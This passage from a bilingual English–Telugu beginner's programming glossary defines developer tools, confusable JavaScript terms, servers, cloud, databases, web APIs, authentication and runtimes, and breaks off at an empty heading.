<p class="teg"><strong>Telugu:</strong> <strong>Sync</strong> = okati taruvata okati, prathidi eduru chustundi. <strong>Async</strong> = slow pani (network) <strong>start chesi munduku</strong>, result taruvata chuskuntundi.</p>

**Promise** — an object standing for a value that **isn't ready yet** — a receipt for a future result. `async/await` is the modern way to use them (notes H4).
<p class="teg"><strong>Telugu:</strong> <strong>Inka ready kaani</strong> value ki receipt — future result ki token laantidi.</p>

**Bug** — a **mistake in the code** that makes it behave wrong. Named after a real moth found in a computer in 1947.
<p class="teg"><strong>Telugu:</strong> Code ni tappuga panichese <strong>porapaatu</strong>.</p>

**Error / exception** — the **signal JS raises when something goes wrong** at runtime (e.g. `TypeError`, `ReferenceError`). Caught with `try/catch` (notes J3).
<p class="teg"><strong>Telugu:</strong> Emaina tappu jariginappudu JS ichhe <strong>signal</strong> (<code>TypeError</code>). <code>try/catch</code> tho pattukuntaam.</p>

**Stack trace** — the **list of function calls** that led to an error, printed with it. Read top-down; the top is usually where it broke (notes J12).
<p class="teg"><strong>Telugu:</strong> Error ki daari teesina <strong>function calls list</strong>. Paina nunchi chaduvu — paidi mostam ekkada pagilindo adi.</p>

**Debugging** — the craft of **finding and fixing** bugs — with logs, breakpoints, and reasoning, not guessing (notes L / J12).
<p class="teg"><strong>Telugu:</strong> Bugs ni <strong>kanukkoni sariddi</strong> cheye naipunyam — logs, breakpoints tho, oohatho kaadu.</p>

**Console** — the panel (and the `console.log` function) where your messages and errors print. Your most-used debugging tool.
<p class="teg"><strong>Telugu:</strong> Nee messages/errors kanipinche panel (mariyu <code>console.log</code>). Ekkuva vaade debugging tool.</p>

---

# Part I — The Developer's Workbench

*The everyday tools and words around the code itself.*

**IDE / editor** — the app you **write code in**. VS Code is the popular one; it adds autocomplete, error highlighting, and debugging on top of a plain text editor.
<p class="teg"><strong>Telugu:</strong> Code <strong>raase app</strong> — VS Code popular. Autocomplete, error highlight, debugging isthundi.</p>

**Terminal / CLI** *(Command-Line Interface)* — the **text window** where you type commands to run tools (`npm install`, `git push`, `node app.js`).
<p class="teg"><strong>Telugu:</strong> Commands type chese <strong>text window</strong> — <code>npm install</code>, <code>git push</code> laanti tools ni run chestundi.</p>

**Git** — the **version-control** tool that tracks every change to your code, so you can go back, branch, and collaborate.
<p class="teg"><strong>Telugu:</strong> Nee code loni prathi maarpu ni <strong>track chese</strong> tool — venakki velladaniki, branch cheyyadaniki, kalisi pani cheyyadaniki.</p>

**Repository** *(repo)* — a **project folder that Git tracks**. On GitHub, it's your project's online home.
<p class="teg"><strong>Telugu:</strong> Git track chese <strong>project folder</strong>. GitHub lo, nee project online illu.</p>

**Commit** — a **saved snapshot** of your changes, with a message describing them. Your project's undo history.
<p class="teg"><strong>Telugu:</strong> Nee maarpula <strong>saved snapshot</strong>, oka message tho. Project yokka undo charitra.</p>

**Branch** — a **parallel line of work** where you can build a feature without touching the main code, then merge it back.
<p class="teg"><strong>Telugu:</strong> Main code ni muttukokunda feature katte <strong>samaanantara daari</strong> — taruvata merge chestham.</p>

**Push / pull** — **push** sends your commits up to GitHub; **pull** brings others' commits down to you.
<p class="teg"><strong>Telugu:</strong> <strong>Push</strong> = nee commits ni GitHub ki paiki pampu; <strong>pull</strong> = veeri commits ni kindaki techuko.</p>

**package.json** — the **manifest file** at a project's root: its name, scripts, and the list of dependencies.
<p class="teg"><strong>Telugu:</strong> Project root lo <strong>vivaraala file</strong> — peru, scripts, dependencies list.</p>

**node_modules** — the (huge) folder where npm installs all your downloaded packages. Never edited by hand, never committed to Git.
<p class="teg"><strong>Telugu:</strong> npm packages anni install ayye (peddha) folder. Cheththo muttam, Git ki pampam.</p>

**Environment variable** — a **config value kept outside the code** (API keys, database URLs), so secrets don't live in your files. Read via `process.env`.
<p class="teg"><strong>Telugu:</strong> Code <strong>bayata unche config value</strong> (API keys, DB URLs) — secrets files lo undakunda.</p>

**Build** — the step that **turns your source code into runnable output** (bundling, minifying, transpiling) before you ship it.
<p class="teg"><strong>Telugu:</strong> Nee source code ni <strong>run ayye output ga maarche</strong> step — ship cheyyadaniki mundu.</p>

**Deploy** — to **put your app on a live server** so real users can reach it. "Going to production."
<p class="teg"><strong>Telugu:</strong> Nee app ni <strong>live server meeda pettadam</strong> — nijamaina users vaadelaga. "Production loki velladam."</p>

**Transpile** — to **convert code from one form to another**: TypeScript → JavaScript, or modern JS → older JS for old browsers (Babel does this).
<p class="teg"><strong>Telugu:</strong> Code ni <strong>oka roopam nunchi inko daaniki maarchadam</strong> — TypeScript → JS, modern JS → paatha JS.</p>

**Refactor** — to **restructure code to make it cleaner** without changing what it does. Behaviour stays; readability improves.
<p class="teg"><strong>Telugu:</strong> Code ni <strong>clean cheyyadaniki</strong> tirigi raayadam — pani okate untundi, chadavadam sulabham avutundi.</p>

---

# Part J — The Confusables (side by side)

*The word-pairs that trip up every beginner, settled in one table. When two terms feel the same, come here.*

| These sound alike… | …but here's the difference |
|---|---|
| **Parameter vs Argument** | Parameter = placeholder in the *definition* (`function f(x)`). Argument = real value in the *call* (`f(5)`). |
| **Function vs Method** | A method is just a function that lives **on an object** and is called with a dot (`arr.push()`). All methods are functions. |
| **Built-in vs Custom** | Built-in = given by JS/browser (`fetch`, `Math.max`). Custom = you wrote it yourself. |
| **Library vs Framework** | You **call** a library; a framework **calls you**. Library = toolbox you control; framework = structure that runs your code. |
| **Class vs Object** | Class = the **blueprint**. Object (instance) = a **real thing built** from it. One class → many objects. |
| **Package vs Module** | Module = **one file** that imports/exports. Package = a **downloadable bundle** (often many modules) you install. |
| **== vs ===** | `==` converts types before comparing (surprises). `===` checks value **and** type. Always use `===`. |
| **null vs undefined** | `undefined` = JS never set it. `null` = you set it empty **on purpose**. |
| **Statement vs Expression** | Expression **produces a value** (`2+2`). Statement **does an action** (`if`, a loop). |
| **Sync vs Async** | Sync = one thing at a time, each waits. Async = start a slow job, carry on, handle the result later. |
| **Compile vs Interpret** | Compile = translate the whole program **before** running. Interpret = run it **line by line** as it goes. |
| **Frontend vs Backend** | Frontend = runs in the **browser** (what users see). Backend = runs on the **server** (data, logic, secrets). |
| **Client vs Server** | Client **asks** (browser sends a request). Server **answers** (sends a response). |
| **Element vs Node** | Node = any point in the DOM tree. Element = a node that's an actual HTML tag. |
| **Props vs State** | Props = inputs **passed in** from outside (read-only). State = data a component **owns and changes**. |
| **Mutable vs Immutable** | Mutable = can be changed in place (arrays, objects). Immutable = can't; you make a copy (strings, numbers). |
| **HTML vs CSS vs JS** | HTML = structure (what's on the page). CSS = style (how it looks). JS = behaviour (what it does). |
| **Bug vs Error** | Bug = the mistake in your code. Error = the runtime signal that something went wrong because of it. |

---

## One-page memory card

> **Atoms:** variable (named box) · value (the data) · expression (makes a value) · statement (does an action).
> **Function:** reusable code; *parameter* = placeholder, *argument* = real value; *return* = what it hands back.
> **Function kinds:** built-in (given) · custom (yours) · method (on an object) · callback (run later) · hook (plug into React).
> **OOP:** class (blueprint) → instance (built object) · property (data) · method (behaviour) · `this` (current object).
> **Data:** string · number · boolean · null/undefined · array (ordered list) · object (key:value) · JSON (data as text).
> **Reuse:** module (one file) · package (installed bundle) · library (you call it) · framework (calls you) · API (how software talks).
> **Web:** frontend (browser) vs backend (server) · client asks, server answers · DOM (page as a tree) · event + listener.
> **React:** component (UI piece) · props (inputs in) · state (owned, changing data) · hook (`useState`) · JSX · render.
> **Running:** runtime · scope (where a variable lives) · sync vs async · bug (mistake) → error (the signal) → debug (fix it).
> **Workbench:** IDE (VS Code) · terminal (commands) · Git (track changes) · repo · commit · push/pull · deploy (go live).
> **Golden rule:** when two words feel the same, open Part J — the difference is the whole point.

*You now have the vocabulary. Every tutorial, every job description, every error message is written in these words — and now you speak them.*

---

# Book 2 — Software, Systems & Tools

*The bigger picture — the words for servers, data, the web, architecture, security, the AI era, and the 2026 tool landscape. Reach in here as your projects grow past the browser.*

# Part A — Machines & Where Code Runs

### Server

A server is an ordinary computer whose job is to wait for requests and answer them — it "serves." Nothing about its hardware makes it special; what makes it a server is its *role*: always on, always listening on a port, no screen or keyboard needed. Your laptop becomes a server the moment you run `npm start`. **Example:** when you open Instagram, your phone sends a request to one of Meta's servers, which finds your feed and sends it back — that machine has been running non-stop for months in a data centre.

<p class="te"><strong>Telugu:</strong> Server ante requests kosam eppudu eduru chuse mamulu computer — adagagane samadhanam istundi. Nee laptop kuda <code>npm start</code> cheyagane server aipotundi.</p>

### Client

The client is the machine (or program) that *asks*. Clients initiate; servers respond — that asymmetry is the whole client-server model. One server typically handles thousands of clients at once. **Example:** your browser, your phone's Swiggy app, and even one server calling another server's API are all "clients" in that conversation.

<p class="te"><strong>Telugu:</strong> Client ante <strong>adige</strong> vaipu — browser, phone app. Client modalu pedutundi, server samadhanam istundi; okka server veyyi mandi clients ki okesari serve chestundi.</p>

### Localhost

Localhost (`127.0.0.1`) is a special address that always means "this machine" — traffic to it never leaves your computer. Developers use it to run and test servers privately before anyone else can see them. **Example:** `http://localhost:3000` in your browser is your own laptop talking to a React dev server also running on your laptop — unplug the internet and it still works.

<p class="te"><strong>Telugu:</strong> Localhost (<code>127.0.0.1</code>) ante eppudu 'ee machine' — traffic computer bayataki aslu vellad'u. Nee React dev server ni private ga test cheyyadaniki ide.</p>

### Virtual Machine (VM)

A VM is a complete pretend-computer running inside a real one: software (a *hypervisor*) slices one physical machine into several isolated "computers," each with its own OS, RAM share, and disk. This is how cloud providers rent one giant server to fifty customers safely. **Example:** an AWS EC2 "instance" you rent for ₹500/month is a VM — one slice of a monster machine in Mumbai, indistinguishable from a real computer from the inside.

<p class="te"><strong>Telugu:</strong> VM ante nijam computer lopala nadiche <strong>nakili computer</strong> — okka pedda server ni mukkalu ga kosi chala mandiki addeku istaru. AWS EC2 instance ante ide.</p>

### Container (and Docker)

A container packages your app *plus everything it needs* (runtime, libraries, config) into one sealed box that runs identically anywhere. Unlike a VM it doesn't carry a whole OS — all containers share the host's kernel, so they start in seconds and weigh megabytes, not gigabytes. Docker is the tool that builds and runs them. **Example:** "works on my machine" dies with Docker: you ship the container, and the exact same environment runs on your laptop, your teammate's Mac, and the production server. You'll do this in Phase 10.

<p class="te"><strong>Telugu:</strong> Container ante nee app + daaniki kaavalsinavi anni <strong>okka sealed box</strong> lo — ekkada run chesina okelaage nadustundi. 'Naa machine lo work avutundi' problem ki Docker ye mandu.</p>

### Cloud

The cloud is renting computers, storage, and services over the internet instead of buying and maintaining your own. The machines are real — they live in data centres — you just never touch them, and you pay for what you use. The pitch: no upfront hardware cost, and you can scale from 1 machine to 1,000 in minutes. **Example:** Netflix owns almost no servers; it runs on AWS. Your Phase 10 capstone will too — an EC2 machine you rent by the hour.

<p class="te"><strong>Telugu:</strong> Cloud ante computers konakunda internet lo <strong>addeku</strong> teesukovadam — vaadinantha varake dabbu. Machines nijamainave, data centre lo untayi — nuvvu muttavu anthe. Netflix daggara servers levu, antha AWS.</p>

### IaaS · PaaS · SaaS

Three levels of "how much does the cloud manage for me." **IaaS** (Infrastructure): they give you a bare VM; you install everything (AWS EC2). **PaaS** (Platform): they run your code; you never see the OS (Render, Heroku, SAP BTP). **SaaS** (Software): they run the whole finished app; you just log in (Gmail, Notion). **Example:** hosting your API on EC2 = IaaS; pushing it to Render = PaaS; using GitHub itself = SaaS. Rule of thumb: the higher the level, the less control and the less work.

<p class="te"><strong>Telugu:</strong> Cloud entha manage chestundo mudu levels: <strong>IaaS</strong> = khaali machine istaru (EC2), <strong>PaaS</strong> = nee code run chestaru (Render, SAP BTP), <strong>SaaS</strong> = motham app ye istaru (Gmail). Paiki velle koddi control takkuva, pani takkuva.</p>

### Data Centre

A data centre is a warehouse filled with thousands of servers, industrial cooling, backup power, and very fast internet — the physical place "the cloud" actually lives. Providers build them in *regions* around the world so data can live close to users. **Example:** when AWS says your server is in `ap-south-1`, that means a specific building in Mumbai; choosing it over a US region cuts your Indian users' latency from ~250ms to ~20ms.

<p class="te"><strong>Telugu:</strong> Data centre ante velakoladi servers unna godown — industrial cooling, backup power, super-fast internet tho. 'Cloud' nijam ga nivasinche building ide. <code>ap-south-1</code> ante Mumbai lo okka building.</p>

### CDN (Content Delivery Network)

A CDN keeps copies of your static files (images, CSS, JS, video) on hundreds of servers worldwide, so every user downloads from a machine near them instead of your one origin server. It exists because the speed of light is a hard limit — you can't make Mumbai→Virginia fast, but you can move the file to Mumbai. **Example:** Cloudflare and Akamai are CDNs; when you deploy a React app to Vercel or Netlify, your files are automatically pushed to a CDN — that's why they load fast everywhere.

<p class="te"><strong>Telugu:</strong> CDN ante nee static files (images, JS) copies ni prapancham antha unna servers lo pettadam — prathi user ki <strong>daggara</strong> nunchi download avutundi. Vercel/Netlify deploy fast ga load avvadaniki kaaranam ide.</p>

### Load Balancer

A load balancer is a traffic officer standing in front of several identical servers, distributing incoming requests among them so no single machine drowns. It also quietly stops sending traffic to a server that crashes — users never notice. **Example:** big sites run the same app on 50 servers behind one load balancer; during a sale, they add 50 more and the balancer spreads the load — that's *horizontal scaling* (Part F) in action.

<p class="te"><strong>Telugu:</strong> Load balancer ante <strong>traffic police</strong> — okate app nadipe chala servers madhya requests panchutundi; okati crash aithe daaniki traffic aapesi users ki teliyakunda chustundi.</p>

### Reverse Proxy

A reverse proxy is a front-door server that receives all public traffic and forwards it to the right internal app — terminating HTTPS, serving cached files, and hiding your real servers from the internet. (A *forward* proxy hides clients; a *reverse* proxy hides servers.) **Example:** the classic deployment you'll build: Nginx listens on port 443, handles TLS, serves images directly, and quietly passes `/api/*` requests to your Node app on port 3000.

<p class="te"><strong>Telugu:</strong> Reverse proxy ante mundu nilabade <strong>gate-keeper server</strong> — HTTPS handle chesi, lopala unna nee app (port 3000) ki traffic forward chestundi. Nginx classic example.</p>

---

# Part B — Data & Databases

### Data

Data is any recorded fact: a name, a click, a temperature reading, a photo. Raw data becomes *information* when organised to answer a question. Software is, at its core, machinery for capturing, storing, transforming, and displaying data. **Example:** "27" is data; "27°C in Hyderabad right now" is information; a weather app is software wrapped around that pipeline.

<p class="te"><strong>Telugu:</strong> Data ante record chesina prathi vishayam — peru, click, photo. Prashna ki samadhanam ga organise chesthe adi <strong>information</strong>. Software antha data ni pattukuni, dachi, maarchi, chupinche yantram.</p>

### Database (DB)

A database is an organised, durable collection of data designed for fast storing and searching — the difference between a shoebox of receipts and a filing cabinet with labelled folders. Apps keep data in a database (not files, not memory) because databases survive restarts, handle many users at once, and can find one record among millions in milliseconds. **Example:** every Instagram like, every bank balance, every SAP purchase order lives in a database row.

<p class="te"><strong>Telugu:</strong> Database ante data ni organised ga, <strong>permanent</strong> ga dachi vega ga vetike system — shoebox kaadu, labelled filing cabinet. Prathi like, prathi bank balance okka row.</p>

### DBMS (Database Management System)

The DBMS is the actual software that runs the database — it stores the files, understands queries, enforces rules, and manages who can read what. People say "database" loosely for both the data and this software. **Example:** MySQL, PostgreSQL, MongoDB, Oracle, and SAP HANA are DBMSs; "we use MySQL" means "MySQL manages our data."

<p class="te"><strong>Telugu:</strong> DBMS ante database ni nadipe <strong>software</strong> — MySQL, MongoDB, SAP HANA. 'Memu MySQL vaadutham' ante 'maa data ni MySQL manage chestundi' ani artham.</p>

### SQL (Structured Query Language)

SQL is the standard language for talking to relational databases — you *declare* what you want, and the DBMS figures out how to get it. Four verbs do most of the work: `SELECT` (read), `INSERT` (create), `UPDATE` (change), `DELETE` (remove). **Example:** `SELECT name FROM users WHERE city = 'Hyderabad'` — readable almost as English. You'll live in SQL during Phase 9, and ABAP's Open SQL is a dialect of the same idea.

<p class="te"><strong>Telugu:</strong> SQL ante relational databases tho matlade standard bhasha — <code>SELECT</code> (chadavadam), <code>INSERT</code>, <code>UPDATE</code>, <code>DELETE</code>. Phase 9 lo, ABAP Open SQL lo idi nee roju bhasha.</p>

### NoSQL

NoSQL databases drop the rigid table structure for other shapes: document stores (JSON-like blobs, e.g. MongoDB), key-value stores (Redis), and others. The trade: more flexibility and easier horizontal scaling, but weaker guarantees and no standard query language. **Example:** a product catalogue where every product has different fields fits MongoDB naturally; a bank ledger, where structure and guarantees matter, belongs in SQL. Rule of thumb: relationships and correctness → SQL; flexible or huge-scale data → consider NoSQL.

<p class="te"><strong>Telugu:</strong> NoSQL ante tables lekunda vere shapes lo dache databases — MongoDB (JSON documents), Redis (key-value). Flexibility ekkuva, guarantees takkuva. Bank ledger ki SQL; roopam maarutune unde catalogue ki NoSQL.</p>

### Schema

The schema is the blueprint of a database: which tables exist, which columns each has, their types, and how tables relate. Designing it well is half of backend work — a bad schema haunts a project for years. **Example:** a `users` table with `id (number)`, `name (text)`, `email (text, unique)` is a schema decision; so is the rule "every order must belong to an existing user."

<p class="te"><strong>Telugu:</strong> Schema ante database <strong>blueprint</strong> — e tables, e columns, e types, ela kalusukuntayi. Backend pani lo sagam idi design cheyyadame; tappu schema samvatsaraalu tarumutundi.</p>

### Primary Key & Foreign Key

A **primary key** is the column that uniquely identifies each row — no two rows share it (usually an auto-numbered `id`). A **foreign key** is a column that stores *another table's* primary key, creating a relationship. This is the "relational" in relational databases. **Example:** `orders.user_id = 42` is a foreign key pointing at `users.id = 42` — how the database knows *which* user placed the order, without copying the user's details into every order.

<p class="te"><strong>Telugu:</strong> <strong>Primary key</strong> = prathi row ki unique id. <strong>Foreign key</strong> = inkoka table primary key ni pattukune column — <code>orders.user_id</code> → <code>users.id</code>. 'Relational' ante ide.</p>

### Index

An index is a pre-built lookup structure (usually a B-tree) on a column, so the database can jump to matching rows instead of scanning the whole table — exactly the O(n) → O(log n) trade from Phase 3, bought with extra storage and slightly slower writes. **Example:** `SELECT * FROM users WHERE email = ?` on 10 million rows: without an index, seconds; with an index on `email`, milliseconds. "Add an index" is the single most common database performance fix.

<p class="te"><strong>Telugu:</strong> Index ante column meeda mundu ga kattina lookup (B-tree) — table motham scan cheyyakunda nerugga jump. O(n) → O(log n); '<strong>index add cheyyi</strong>' ante slow query ki #1 fix.</p>

### Query

A query is any single request you send to a database — a question ("which orders shipped today?") or a command ("mark this one delivered"). Backend performance talk is mostly query talk: how many queries per page, how slow is each. **Example:** the classic beginner bug is the *N+1 problem* — fetching 100 users, then running one extra query per user for their orders: 101 queries where 2 would do.

<p class="te"><strong>Telugu:</strong> Query ante database ki okka request — prashna leda command. Beginner bug: <strong>N+1 problem</strong> — 2 queries saripoye chota 101 kottadam.</p>

### Transaction & ACID

A transaction groups several database operations into one all-or-nothing unit: either every step succeeds, or none happen. ACID is the guarantee list — Atomic (all or nothing), Consistent (rules never break), Isolated (parallel transactions don't corrupt each other), Durable (once confirmed, it survives a crash). **Example:** transferring ₹500 = subtract from account A + add to account B. If the server dies between the two steps, the transaction rolls back — money is never created or destroyed. This is why banks run on SQL databases.

<p class="te"><strong>Telugu:</strong> Transaction ante konni operations <strong>okate unit</strong> ga — anni jarugutayi leda emi jaragavu. ₹500 transfer madhyalo server padipoina dabbu maayam avvadu — adi ACID guarantee. Banks SQL meeda nadavadaniki kaaranam.</p>

### ORM (Object-Relational Mapper)

An ORM is a library that lets you work with database rows as objects in your programming language, writing `User.find(42)` instead of raw SQL — faster to write, safer against injection, and portable across databases, at the cost of hiding what SQL actually runs. **Example:** Prisma and Sequelize in Node, Hibernate in Java. Wisdom: use an ORM daily, but learn real SQL first (Phase 9) so you can read what it generates when a query is slow.

<p class="te"><strong>Telugu:</strong> ORM ante SQL raayakunda objects laga database vaadanicche library — <code>User.find(42)</code>. Prisma, Sequelize. Kaani mundu nijam SQL nerchuko — slow query appudu ORM emi generate chestundo chadavagalagali.</p>

### Cache

A cache is a small, fast copy of data kept close to where it's needed, so you skip an expensive trip — the memory-hierarchy idea from Phase 3 applied everywhere: browser caches, CDN caches, server-side Redis caches, database caches. The hard part is *invalidation*: knowing when the copy is stale. **Example:** a news site doesn't hit the database for every reader; it caches the rendered homepage in Redis for 60 seconds — one query serves a million readers a minute.

<p class="te"><strong>Telugu:</strong> Cache ante kharchu ayye trip tappinchadaniki <strong>daggarlo unchukune fast copy</strong> — browser, CDN, Redis anni ide. Kastam antha: eppudu stale avutundo teliyadame (invalidation).</p>

### Data Warehouse & Data Lake

Operational databases serve the app; a **data warehouse** is a separate database where a company copies historical data to run heavy analytics without slowing production (Snowflake, BigQuery, SAP BW). A **data lake** is cruder: a vast dump of raw files in every format, kept cheap for future analysis. **Example:** Swiggy's app DB handles live orders; the warehouse answers "which cuisine grew fastest in Tier-2 cities last year?"; the lake holds raw click logs no one has analysed yet.

<p class="te"><strong>Telugu:</strong> App ni nadipedi operational DB; <strong>warehouse</strong> ante analytics kosam veru ga pettina history copy (BigQuery, SAP BW); <strong>lake</strong> ante raw files pedda dump — mundu mundhu analysis kosam cheap ga dachipettadam.</p>

---

# Part C — Web & APIs

### Frontend

The frontend is everything that runs on the *user's* device — the part you can see and click: layout, buttons, forms, animations. It's built with HTML (structure), CSS (style), and JavaScript (behaviour), plus frameworks like React. The user can inspect all of it, so it can never be trusted with secrets or final validation. **Example:** everything you see at instagram.com — the grid, the like animation, the infinite scroll — is frontend code executing in your browser.

<p class="te"><strong>Telugu:</strong> Frontend ante <strong>user device lo</strong> nadichedi — kanipinchedi antha: layout, buttons, animations. HTML + CSS + JS + React. User antha chudagaladu — secrets ikkada pettaku.</p>

### Backend

The backend is everything that runs on the *server*: business logic, database access, authentication, payments. Users never see this code — they only see its effects through API responses. All real security lives here. **Example:** when you tap "Pay," the frontend just shows a spinner; the backend verifies your balance, talks to the payment gateway, writes the transaction, and returns success — none of which the phone could be trusted to do.

<p class="te"><strong>Telugu:</strong> Backend ante <strong>server lo</strong> nadichedi — logic, database, auth, payments. User ki code kanipiyyadu, effects matrame. Nijamaina security antha ikkade.</p>

### Full-Stack

A full-stack developer works on both frontend and backend — they can build a complete product alone: UI, API, database, deployment. That breadth is exactly what your 50-day plan builds (React → Node → MySQL → AWS). **Example:** a full-stack task: "add a wishlist feature" — you design the DB table, write the API endpoints, and build the React page, all three layers yourself.

<p class="te"><strong>Telugu:</strong> Full-stack ante rendu vaipula pani chesevaadu — UI, API, DB, deploy antha okkade kattagaladu. Nee 50-day plan kattedi ide: React → Node → MySQL → AWS.</p>

### API (Application Programming Interface)

An API is a formal contract for how one program asks another to do something — a menu of operations with defined inputs and outputs, so you can use a service without knowing its internals. The term covers everything from a library's functions to a web service's URLs. **Example:** the restaurant analogy: you don't enter the kitchen (the database); you order from the menu (the API) and the waiter brings the dish (the response). Google Maps' API lets any app ask "give me directions" without knowing how routing works.

<p class="te"><strong>Telugu:</strong> API ante okka program inkodaanni adige <strong>formal menu</strong> — lopala ela pani chestundo teliyakkarleadu; menu lo order isthe dish vastundi. Google Maps API: 'directions ivvu' ani adagadam.</p>

### REST API

REST is the most common style for web APIs: treat everything as a *resource* at a URL, and use HTTP's own verbs on it — `GET /users/42` (read), `POST /users` (create), `PUT/PATCH` (update), `DELETE` (remove) — with JSON in and out, statelessly. Its beauty is predictability: seeing one REST API, you've seen the shape of thousands. **Example:** `GET https://api.github.com/users/nikhilvanama` returns your GitHub profile as JSON. You'll design one properly in Phase 8.

<p class="te"><strong>Telugu:</strong> REST ante web API la common style — prathi vishayam oka URL (<strong>resource</strong>), HTTP verbs tho pani: GET chadavadam, POST create, DELETE remove; JSON in/out. Okati chusthe anni chusinatte.</p>

### Endpoint

An endpoint is one specific URL + method combination an API exposes — one item on the menu. APIs are described as lists of endpoints. **Example:** a to-do API might expose four endpoints: `GET /todos`, `POST /todos`, `PATCH /todos/:id`, `DELETE /todos/:id`. In Express you write one handler function per endpoint.

<p class="te"><strong>Telugu:</strong> Endpoint ante API menu lo <strong>okka item</strong> — okka URL + method. <code>GET /todos</code>, <code>POST /todos</code> — Express lo prathi endpoint ki okka handler function.</p>

### JSON (JavaScript Object Notation)

JSON is the universal text format for exchanging structured data: keys, strings, numbers, booleans, arrays, and nesting — readable by humans and every language. It won because it's exactly JavaScript's object syntax, and the web speaks JavaScript. **Example:** `{"name": "Nikhil", "skills": ["React", "Node"], "open_to_work": true}`. Nearly every API response you'll ever read is JSON; `JSON.parse()` and `JSON.stringify()` convert it to and from live objects.

<p class="te"><strong>Telugu:</strong> JSON ante data ki <strong>universal text format</strong> — keys, values, arrays, nesting. Prathi API response idi. <code>JSON.parse</code> / <code>JSON.stringify</code> tho object ↔ text.</p>

### Webhook

A webhook flips the API direction: instead of you repeatedly asking "anything new?" (*polling*), the other service calls **your** URL the moment something happens — "don't call us, we'll call you." **Example:** when a customer pays, Razorpay sends a POST to your `/webhook/payment` endpoint within seconds; without webhooks you'd query their API every few seconds forever. GitHub webhooks are what trigger CI pipelines on every push.

<p class="te"><strong>Telugu:</strong> Webhook ante API ni reverse cheyyadam — nuvvu malli malli adagakunda, emaina jarigithe vaallu <strong>nee URL ni</strong> pilustaru. Payment avvagane Razorpay nee <code>/webhook</code> ki POST chestundi.</p>

### WebSocket

A WebSocket is a persistent, two-way connection between browser and server — unlike HTTP's ask-then-answer, either side can send a message at any moment. It's the technology behind everything "live." **Example:** WhatsApp Web, live cricket scores, multiplayer games, and stock tickers all hold a WebSocket open; that's how a message appears without you refreshing anything.

<p class="te"><strong>Telugu:</strong> WebSocket ante browser–server madhya <strong>eppudu terichi unna two-way line</strong> — evaraina eppudaina message pampochu. WhatsApp Web, live scores, games anni idi.</p>

### Authentication vs Authorization

**Authentication** (AuthN) asks "who are you?" — verifying identity via password, OTP, or Google login. **Authorization** (AuthZ) asks "what are you allowed to do?" — checking permissions *after* identity is known. Interviewers love the pair, and HTTP encodes it: 401 means "log in first," 403 means "logged in, still not allowed." **Example:** logging into your company portal = authentication; the portal hiding the "Salaries" admin page from you = authorization.

<p class="te"><strong>Telugu:</strong> <strong>Authentication</strong> = 'nuvvevaru?' (login). <strong>Authorization</strong> = 'nee ki emi anumathi undi?'. 401 = login cheyyi; 403 = login ayyav kaani anumathi ledu.</p>

### JWT (JSON Web Token)

A JWT is a signed identity card the server issues at login: a compact string encoding who you are and until when, cryptographically signed so it can't be forged. The client sends it with every request, letting a *stateless* server verify identity without a session lookup — which is why JWTs dominate modern APIs. **Example:** after login, your React app stores a JWT and attaches it as `Authorization: Bearer eyJhbG…` to every API call; the server checks the signature and trusts the contents. You'll implement this in Phase 8's auth capstone.

<p class="te"><strong>Telugu:</strong> JWT ante login appudu server icchina <strong>sign chesina ID card</strong> (string) — prathi request tho pampistav, server signature check chesi nammutundi. Stateless auth ki standard; Phase 8 lo nuvve implement chestav.</p>

### Cookie & Session

A cookie is a small piece of data the server asks the browser to store and automatically send back with every future request — the classic fix for HTTP's statelessness. A session is the traditional pattern built on it: the server keeps your logged-in state in its memory/DB and gives the browser just a session-ID cookie. **Example:** "remember me" is a long-lived cookie; getting logged out everywhere when a site restarts its servers is sessions being wiped. JWTs (above) are the stateless alternative.

<p class="te"><strong>Telugu:</strong> Cookie ante browser dachi prathi request tho <strong>automatic ga pampe</strong> chinna data — stateless HTTP ki memory ivvadaniki. Session ante server lo nee login state; browser daggara session-id cookie matrame.</p>

### CORS (Cross-Origin Resource Sharing)

CORS is a browser security rule: JavaScript from site A may not read responses from site B unless B's server explicitly allows it via headers. It exists so a malicious site can't silently call your bank's API using your logged-in cookies. Every web developer meets it as a confusing red console error. **Example:** your React app on `localhost:3000` calls your API on `localhost:5000` — different port = different origin = blocked, until your Express server adds `Access-Control-Allow-Origin`. Now you know it's a feature, not a bug.

<p class="te"><strong>Telugu:</strong> CORS ante browser rule — site A lo JS, site B API ni B <strong>anumathi ivvakunda</strong> chadavaledu. <code>localhost:3000</code> → <code>localhost:5000</code> red error idi — bug kaadu, security feature.</p>

### Rate Limiting

Rate limiting caps how many requests a client may make in a window ("100 requests/minute"), protecting servers from abuse, runaway scripts, and brute-force attacks; exceeding it earns HTTP `429 Too Many Requests`. **Example:** an attacker trying 10,000 passwords hits the limit at 5 attempts; OpenAI's API rate-limits by plan tier — the errors your code must gracefully retry from are usually 429s.

<p class="te"><strong>Telugu:</strong> Rate limiting ante okka client entha adagagalado <strong>cap</strong> — 'nimishaniki 100 requests'; daatithe <code>429</code>. Brute-force, abuse nunchi server ni kaapadutundi.</p>

---

# Part D — Building Software

### Source Code

Source code is the human-readable text you write — the recipe, before cooking. It's the asset a software company actually owns; everything else (the running app) is generated from it. **Example:** `app.js`, `index.html`, and every file you push to GitHub are source code; the minified bundle a browser downloads is its processed output.

<p class="te"><strong>Telugu:</strong> Source code ante nuvvu raase human-readable text — <strong>recipe</strong>. Company nijam ga own chesedi ide; running app antha deeninunchi generate ayyedi.</p>

### Compiler vs Interpreter

A **compiler** translates your whole program into machine code *before* it runs (C, Java, Go) — errors surface at compile time, and the result runs fast. An **interpreter** reads and executes your code line by line *as* it runs (classic Python) — instant feedback, errors surface at runtime. Modern engines blur the line. **Example:** JavaScript's V8 does *JIT* (just-in-time) compilation — it starts interpreting immediately, then compiles the hot paths to machine code mid-run. ABAP is compiled to bytecode on the SAP application server.

<p class="te"><strong>Telugu:</strong> <strong>Compiler</strong> mundu ga motham machine code ki maarchestundi (C, Java); <strong>interpreter</strong> line by line run chestundi. JS di JIT — modata interpret chesi, ekkuva vaade code ni madhyalo compile chestundi.</p>

### Runtime

The runtime is the environment your code executes inside — the engine plus the built-in services it provides (memory management, I/O, timers). The same language can have different runtimes with different powers. **Example:** JavaScript in the *browser* runtime can touch the DOM but not your files; the same JavaScript in the *Node.js* runtime can touch files and networks but has no DOM. "Node is a JavaScript runtime" is exactly this sentence.

<p class="te"><strong>Telugu:</strong> Runtime ante nee code nadiche environment + daani <strong>powers</strong>. Same JS: browser runtime lo DOM undi files levu; Node runtime lo files unnayi DOM ledu.</p>

### Library vs Framework

